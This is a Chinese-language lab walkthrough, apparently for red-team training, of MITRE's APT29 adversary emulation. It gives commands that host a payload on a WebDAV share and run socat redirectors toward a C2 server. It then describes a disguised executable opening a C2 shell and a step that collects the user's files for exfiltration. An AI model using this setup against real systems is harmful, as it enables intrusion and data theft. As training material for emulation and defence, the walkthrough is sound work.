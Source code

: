 #### git clone https://github.com/mitre-attack/attack-arsenal.git

#### 從/var/www/webdav提供共享(也可以用阿帕契之類的，能傳檔案都可以)

```bash=
sudo apt install apache2
sudo mkdir /var/www/webdav
sudo chown -R www-data:www-data /var/www/
sudo a2enmod dav
sudo a2enmod dav_fs
sudo vim /etc/apache2/sites-available/000-default.conf
sudo systemctl restart apache2.service
```
#### 將payload 複製到webdav共享
```bash=
sudo cp ~/day1/payloads/python.exe /var/www/webdav/ 
cd /var/www/webdav
sudo chown -R www-data:www-data python.exe
```
Redirector
1. 安裝socat
    Sudo apt install socat
2. 在Redirector上使用Socat设置端口轉發
     sudo socat TCP-LISTEN:443,fork TCP:192.168.0.102:443 &
     sudo socat TCP-LISTEN:1234,fork TCP:192.168.0.102:1234 &
     sudo socat TCP-LISTEN:8443,fork TCP:192.168.0.102:8443 &
## Step 1 初始違規
最初的違規行為是合法用戶按兩下（T1204）偽裝成良性單詞文檔的可執行有效載荷（螢幕保護程式可執行檔）（T1036）。 一旦執行，有效負載就使用RC4密碼在埠1234（T1065）上創建C2連接。 然後，攻擊者使用活動的C2連接生成互動式cmd.exe（T1059）和powershell.exe（T1086）Shell。

開始監聽
![image](https://hackmd.io/_uploads/B1kpiMfIA.png)

受害者點擊exe
![image](https://hackmd.io/_uploads/BkUG2GzLA.png)

開啟shell&&powershell
![image](https://hackmd.io/_uploads/rJlKhGzIA.png)


## Step 2 快速收集與滲出
### 攻擊者運行單行命令，以搜索文件系統中的文檔和媒體檔（T1083，T1119） 


這個 PowerShell 命令會遍歷指定目錄下的所有文件，並將找到的文件壓縮到一個單一的 ZIP 文件中。具體來說：

搜索文件：在用戶主目錄 ($env:USERPROFILE\) 下搜索指定類型的文件，包括 .doc、.pdf、.jpg 等等。
收集文件路徑：將所有找到的文件的完整路徑存儲在 $files 變量中。
壓縮文件：使用 Compress-Archive 命令將這些文件壓縮成一個名為 Draft.Zip 的文件，並將其保存到應用數據目錄 ($env:APPDATA) 中。
